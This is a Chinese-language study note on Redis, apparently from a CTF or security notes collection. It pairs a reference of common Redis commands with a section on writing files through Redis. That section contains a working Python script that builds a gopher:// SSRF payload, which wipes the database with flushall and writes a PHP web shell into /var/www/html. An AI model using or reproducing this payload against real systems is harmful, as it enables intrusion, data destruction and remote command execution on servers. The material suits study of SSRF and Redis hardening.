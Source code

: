 # Redis

## 简介

存储键值对的高效数据库，常用来作为缓存服务

默认端口 ``6379``

基本命令

1. 查询键

``key <pattern>`` 根据pattern查询键

``keys *`` 查询所有的键，会遍历所有的键值，复杂度O(n)

``randomkey`` 随机返回一个键

``dbsize`` 查询键总数，直接获取redis内置的键总数变量，复杂度O(1)

``exists <key>`` 存在返回1，不存在返回0

``type key`` 如果键hello是字符串类型，则返回string；如果键不存在，则返回none


``ttl`` 命令可以查看键hello的剩余过期时间，单位：秒（>0剩余过期时间；-1没设置过期时间；-2键不存在）
``pttl`` 是毫秒

2. 键重命名

``rename key newkey``
``renamenx key newkey`` 只有newkey不存在时才会被覆盖

3. 设置键值

``set <key> <value> [ex]  [px]  [nx|xx]``

``ex``为键值设置秒级过期时间
``px``为键值设置毫秒级过期时间
``nx``键必须不存在，才可以设置成功，用于添加
``xx``与``nx``相反，键必须存在，才可以设置成功，用于更新
``setnx``、``setex`` 与上面的``nx``、``ex``作用相同

批量设置值O(k)
``mset <key> <value> [key value ......]``

``mset a 1 b 2 c 3 d 4``

设置并返回原值O(1)

``getset key value``

4. 获取值O(1)
   
``get key`` 不存在则返回``nil``

批量获取值O(k)，k是键的个数

``mget key [key ......]``

``strlen key`` 字符串长度O(1) 每个汉字占用3个字字节

5. 删除键O(k)

``del <key> [key...]`` 返回结果为成功删除键的个数

``flushdb`` 清空数据库

6. 其他指令

```
 9.1 auth password                       , 登录redis时输入密码
 9.2 echo message               , 打印一个特定的信息message，测试时使用
 9.3 ping                                , 测试与服务器的连接，如果正常则返回pong
 9.4 quit                                , 请求服务器关闭与当前客户端的连接
 9.5 select index                        , 切换到指定的数据库
 10.5 config get parameter               , 取得运行redis服务器的配置参数
10.6 config set parameter value         , 设置redis服务器的配置参数
10.7 config resetstat                   , 重置info命令的某些统计数据
```


## redis 写文件

payload:

```python
cmd=[
    "flushall",
    "set 1 {}".format(shell.replace(" ","${IFS}")),
    "config set dir {}".format(path),
    "config set dbfilename {}".format(filename),
    "save"
    ]
```

利用``gopher``协议SSRF攻击

```python
import urllib
protocol="gopher://"
ip=""
port="6379"
shell="\n\n<?php system(\"cat /flag\");?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=[
    "flushall",
    "set 1 {}".format(shell.replace(" ","${IFS}")),
    "config set dir {}".format(path),
    "config set dbfilename {}".format(filename),
    "save"
    ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ") 
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
```

## 参考资料

【Redis】Redis常用命令 https://segmentfault.com/a/1190000010999677

## 扩展资料


浅析Redis中SSRF的利用 https://xz.aliyun.com/t/5665